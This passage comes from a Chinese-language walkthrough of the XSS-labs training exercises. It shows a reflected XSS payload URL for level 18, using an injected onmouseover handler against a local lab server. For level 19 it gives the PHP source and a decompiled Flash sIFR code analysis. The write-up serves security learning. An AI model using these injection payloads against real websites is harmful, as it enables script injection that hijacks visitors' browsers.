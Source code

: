 ### payload

```js
http://192.168.70.10:8084/level18.php?arg01=1%20onmouseover=alert('xss')&arg02=b
```

![image-20240820142633836](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240820142633836.png)

## level19 (做不了)

### 访问

http://192.168.70.10:8084/level19.php?arg01=a&arg02=b

![image-20240820142709305](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240820142709305.png)

### 源码

```php+HTML
<body>
<h1 align=center>欢迎来到level19</h1>
<?php
ini_set("display_errors", 0);
echo '<embed src="xsf03.swf?'.htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"]).'" width=100% heigth=100%>';
?>
</body>
```

在源码中可知`src=xsf03.swf`

去`xsf03.swf`寻找`sIFR`

`sIFR`：当页面下载时，在一个指定的元素中用**Flash**渲染的文字来代替一些文本。

使用`JPEXS`这工具，首先定位getURL函数

**getURL**函数，利用这个函数我们就可以自动打开指定的网页，开启条件就是链接形式



```js
sIFR.menuItems.push(
    new ContextMenuItem("Followlink",function() 
{ 
getURL(sIFR.instance.primaryLink,sIFR.instance.primaryLinkTarget); 
}),new ContextMenuItem("Open link in new window",function() 
{ 
getURL(sIFR.instance.primaryLink,"_blank");
})
); 

再追踪到sIFR的内容,省略了一些代码，关键代码如下： 
if(_loc5_ && _root.version != sIFR.VERSION) 
{ 
_loc4_ = sIFR.VERSION_WARNING.split("%s").join(_root.version); 
} 

得知version参数可以传入loc4变量中，即sIFR的内容中，但是getURL 只在内容为link时，打开，故定位以下函数： 
function contentIsLink() 
{ 
return this.content.indexOf("<a ") == 0 &&(this.content.indexOf("<a ") ==this.content.lastIndexOf("<a ") &&this.content.indexOf("</a>") == this.content.length - 4); 
} //大体意思是要geturl得用a标签。
```

